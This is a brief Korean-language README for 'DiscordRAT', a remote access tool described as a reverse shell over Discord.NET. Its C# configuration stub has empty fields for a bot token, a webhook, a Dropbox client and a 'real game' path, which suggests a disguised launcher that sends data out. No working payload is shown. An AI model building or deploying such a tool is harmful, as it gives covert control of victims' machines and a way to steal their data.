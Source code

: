 #DiscordRAT
![venom](https://capsule-render.vercel.app/api?type=venom&height=200&text=DiscordRAT&fontSize=70&color=0:8871e5,100:b678c4&stroke=b678c4)
Discord.NET 을 이용한 reverse shell

##Usage

```C# 8
private static GET GET = new GET();
// 본 프로그램의 이름
public string filename = "";
// 실제 게임의 위치
public string path = "";
// 프로그램 버전
public string version = " | 2.23v";
// 디스코드 봇 토큰
public string bot_token = "";
// 웹훅링크
public string EndPoint =
@"";
// ip
public string ip = GET.ip();
// 드랍박스 연결
public DropboxClient dropbox_ = new DropboxClient(
                                      oauth2RefreshToken: "",
                                      appKey: "",
                                      appSecret: "");
// 웹에 post를 보내기위한 HttpClient선언
public HttpClient client_ = new HttpClient();
```
